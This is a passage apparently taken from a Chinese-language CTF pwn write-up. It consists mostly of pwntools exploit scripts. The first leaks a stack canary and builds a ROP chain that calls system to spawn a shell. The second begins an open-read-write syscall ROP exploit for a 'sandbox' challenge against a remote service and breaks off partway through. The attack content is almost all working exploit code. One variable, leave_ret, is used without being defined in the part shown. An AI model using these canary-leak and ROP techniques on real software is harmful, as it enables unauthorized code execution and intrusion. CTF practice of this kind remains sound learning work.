 ```python
ret=0x40101a
rdi_ret=0x40121e
bin_sh=next(elf.search(b"$0"))
system_plt=elf.plt['system']



payload=b'a'*0x28
io.sendlineafter(b'you name\n',payload)
io.recvuntil(b'aaaaaa\n')
canary=u64(io.recv(7).rjust(8,b'\x00'))
hexlog(canary)


payload=p32(1166)
io.send(payload)

io.recvuntil(b'magic number:')
new_ebp=int(encode(io.recvline()),16)-8
hexlog(new_ebp)

payload=p64(rdi_ret)+p64(bin_sh)+p64(system_plt)+p64(canary)+p64(new_ebp)+p64(leave_ret)
io.send(payload)

io.interactive()
```
### sandbox
难度：***
### 考察知识点

1. orw
2. rop 64位系统调用
```python
from pwn import *



is_local=0
if is_local:
    io=process("./pwn")
else:
    io=remote("10.10.175.100",33235)

elf=ELF("./pwn")

# context.log_level='debug'

def hexlog(number:int):
    print(hex(number))

def debug():
    gdb.attach(io)
    pause()


rdi_ret=0x401271
rsi_rdx_ret=0x401273
rax_ret=0x40126f
syscall=0x40126c
io.recvuntil(b"input enter size\n")
io.send(b'\xff\xff\xff\xff')
io.recvuntil(b"magic num:")
```